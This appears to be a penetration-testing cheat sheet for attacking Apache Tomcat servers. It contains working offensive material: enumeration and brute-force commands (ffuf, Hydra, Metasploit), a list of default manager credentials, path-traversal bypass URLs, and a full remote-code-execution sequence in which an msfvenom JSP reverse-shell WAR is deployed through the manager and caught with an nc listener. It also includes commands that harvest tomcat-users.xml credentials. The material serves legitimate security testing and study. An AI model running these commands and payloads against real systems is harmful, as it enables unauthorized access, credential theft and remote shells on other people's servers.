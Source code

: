 # Apache Tomcat

## Theory

Apache Tomcat (called "Tomcat" for short) is a free and open-source implementation of the Jakarta Servlet, Jakarta Expression Language, and WebSocket technologies. It provides a "pure Java" HTTP web server environment in which Java code can also run.

## Practice

#### Enumeration

{% tabs %}
{% tab title="Fingerprinting" %}
We can attempt to trigger an error on the website as a method of fingerprinting. If the error is similar as the one below, this indicates that the website is running Tomcat.

```bash
$ curl http://target.com/DoesNotExist
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
{% endtab %}

{% tab title="Version Identification" %}
To find the version of Apache Tomcat, a simple command can be executed:

```bash
curl -s http://tomcat-site.local:8080/docs/ | grep Tomcat 
```

This will search for the term "Tomcat" in the documentation index page, revealing the version in the title tag of the HTML response.
{% endtab %}

{% tab title="Manager Files Location" %}
Identifying the exact locations of **`/manager`** and **`/host-manager`** directories is crucial as their names might be altered. A brute-force search is recommended to locate these pages.

```bash
ffuf -u https://example.com/FUZZ -w directories.txt
ffuf -u https://example.com/host-manager/FUZZ -w 
ffuf -u https://example.com/manager/FUZZ -w directories.txt
```

Below are common directories for Apache Tomcat.

```
/examples
/examples/jsp/cal/login.html
/examples/jsp/error/error.html
/examples/jsp/snp/snoop.jsp
/examples/servlet/HelloWorldEXample
/examples/servlet/JndiServlet
/examples/servlet/RequestHeaderExample
/examples/servlet/RequestInfoExample
/examples/servlet/RequestParamExample

/host-manager

/manager
/manager/jmxproxy/?qry=STUFF
/manager/status
/manager/status/all
# We can execute commands in /manager/text/ directory
/manager/text/{command}?{parameters}
/manager/text/deploy?path=/foo
/manager/text/list
/manager/text/resources
/manager/text/serverinfo
/manager/text/vminfo
```
{% endtab %}

{% tab title="Username Enumeration" %}
&#x20;It's possible to enumerate usernames through metasploit:

{% hint style="warning" %}
It only works for Tomcat versions **older than 6**
{% endhint %}

```bash
msf> use auxiliary/scanner/http/tomcat_enum
msf> set TARGETURI /manager  # depending on the website
```
{% endtab %}
{% endtabs %}

#### Credentials

{% tabs %}
{% tab title="Default Credentials" %}
The **`/manager/html`** directory is particularly sensitive as it allows the upload and deployment of WAR files, which can lead to code execution. This directory is protected by basic HTTP authentication, with common credentials being:

```
admin:(empty)
admin:admin
admin:password
admin:password1
admin:Password1
admin:tomcat
manager:manager
root:changethis
root:password
root:password1
root:root
root:r00t
root:toor
tomcat:(empty)
tomcat:admin
tomcat:changethis
tomcat:password
tomcat:password1
tomcat:s3cret
tomcat:tomcat
```
{% endtab %}

{% tab title="Brute Force Attack" %}
To attempt a brute force attack on the manager directory, we may use one of the following commands:

```bash
# FFUF
ffuf -u https://tomcat:FUZZ@example.com/manager -w passwords.txt -fs 140

# Hydra
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f <TARGET> http-get /manager/html
```
{% endtab %}
{% endtabs %}

#### Common Vulnerabilities <a href="#common-vulnerabilities" id="common-vulnerabilities"></a>

{% tabs %}
{% tab title="Path Traversal Exploit" %}
In some [**vulnerable configurations of Tomcat**](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/) you can gain access to protected directories in Tomcat using the path: `/..;/`

So, for example, you might be able to **access the Tomcat manager** page by accessing: `www.vulnerable.com/lalala/..;/manager/html`

**Another way** to bypass protected paths using this trick is to access `http://www.vulnerable.com/;param=value/manager/html`
{% endtab %}

{% tab title="Password Backtrace Disclosure" %}
Accessing `/auth.jsp` may reveal the password in a backtrace under fortunate circumstances.
{% endtab %}

{% tab title="Double URL Encoding" %}
The CVE-2007-1860 vulnerability in `mod_jk` allows for double URL encoding path traversal, enabling unauthorized access to the management interface via a specially crafted URL.

In order to access to the management web of the Tomcat go to: `pathTomcat/%252E%252E/manager/html`
{% endtab %}

{% tab title="/examples" %}
Apache Tomcat versions 4.x to 7.x include example scripts that are susceptible to information disclosure and cross-site scripting (XSS) attacks. These scripts, listed comprehensively, should be checked for unauthorized access and potential exploitation. Find [more info here](https://www.rapid7.com/db/vulnerabilities/apache-tomcat-example-leaks/)

* /examples/jsp/num/numguess.jsp
* /examples/jsp/dates/date.jsp
* /examples/jsp/snp/snoop.jsp
* /examples/jsp/error/error.html
* /examples/jsp/sessions/carts.html
* /examples/jsp/checkbox/check.html
* /examples/jsp/colors/colors.html
* /examples/jsp/cal/login.html
* /examples/jsp/include/include.jsp
* /examples/jsp/forward/forward.jsp
* /examples/jsp/plugin/plugin.jsp
* /examples/jsp/jsptoserv/jsptoservlet.jsp
* /examples/jsp/simpletag/foo.jsp
* /examples/jsp/mail/sendmail.jsp
* /examples/servlet/HelloWorldExample
* /examples/servlet/RequestInfoExample
* /examples/servlet/RequestHeaderExample
* /examples/servlet/RequestParamExample
* /examples/servlet/CookieExample
* /examples/servlet/JndiServlet
* /examples/servlet/SessionExample
* /tomcat-docs/appdev/sample/web/hello.jsp
{% endtab %}
{% endtabs %}

#### Remote Code Execution (RCE)

{% tabs %}
{% tab title="Uploading WAR file " %}
If you have access to the Tomcat Web Application Manager, you can **upload and deploy a .war file (execute code)**.

{% hint style="warning" %}
You will only be able to deploy a WAR if you have **enough privileges** (roles: **admin**, **manager** and **manager-script**).
{% endhint %}

First create a war file using Msfvenom.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<local-ip> LPORT=80 -f war -o shell.war
```

Then upload this file.

```bash
curl --upload-file shell.war -u 'tomcat:password' "https://example.com/manager/text/deploy?path=/shell"
```

Start a listener in local machine.

```bash
sudo rlwrap nc -lvnp 80
```

Now access to `https://example.com/shell`. We should get a shell.
{% endtab %}
{% endtabs %}

#### Post-Exploitation

{% tabs %}
{% tab title="Crential Access" %}
If we are in the target system, we can retrieve information about credentials.

```bash
find / -name "tomcat-users.xml" 2>/dev/null
cat tomcat-users.xml
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat" %}

{% embed url="https://exploit-notes.hdks.org/exploit/web/apache-tomcat-pentesting/" %}
